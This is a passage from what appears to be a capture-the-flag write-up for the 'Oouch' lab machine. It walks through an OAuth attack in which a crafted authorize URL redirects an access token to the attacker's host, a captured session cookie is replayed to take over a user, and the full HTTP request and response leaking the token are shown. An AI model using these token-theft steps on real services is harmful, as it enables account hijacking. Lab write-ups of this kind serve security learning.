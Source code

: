 ```
http://authorization.oouch.htb:8000/oauth/authorize/?client_id=oycaEDes5eBFZaTGc8G2vasCr45J6MOW7pDM4ZlI&response_type=token&redirect_uri=http://10.10.14.130&scope=read&allow=Authorize
```

Note the `clientid`, `response_type`. Paste the URL into the Contact page. I should also mention that I've set up a `tcpdump` to capture the cookie information.

{% include image.html image_alt="8b02adbe.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/8b02adbe.png" %}

Replace your `sessionid` cookie value with the one highlighted above and you should have access to `qtc`'s Oouch account.

{% include image.html image_alt="a6e78a54.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/a6e78a54.png" %}

Time to steal the access token next! Open a new tab in the browser and enter the above URL into the address bar.

**Request**

```
GET /oauth/authorize/?client_id=oycaEDes5eBFZaTGc8G2vasCr45J6MOW7pDM4ZlI&response_type=token&redirect_uri=http://10.10.14.130&scope=read&allow=Authorize HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: sessionid=vyv0d5q3nt1ms5kva9efw8rg45s1pgj4; csrftoken=brcfXgZYLuuDc6tMiiIOB0QMUmyNFr1eBTSgnHfrEB9OHUq6J5gMUrw3etPaSy5f
Upgrade-Insecure-Requests: 1
```

**Response**

```
HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: http://10.10.14.130#access_token=SUUxgGxSpEVsbiIgtYDDsR5Fd5C7BD&expires_in=600&token_type=Bearer&scope=read&state=
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Vary: Authorization, Cookie
```

Bam. We got the access token `SUUxgGxSpEVsbiIgtYDDsR5Fd5C7BD`.

## Low-Privilege Shell

With the access token, we can execute the API `/api/get_user` like so.

{% include image.html image_alt="a33bcba3.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/a33bcba3.png" %}
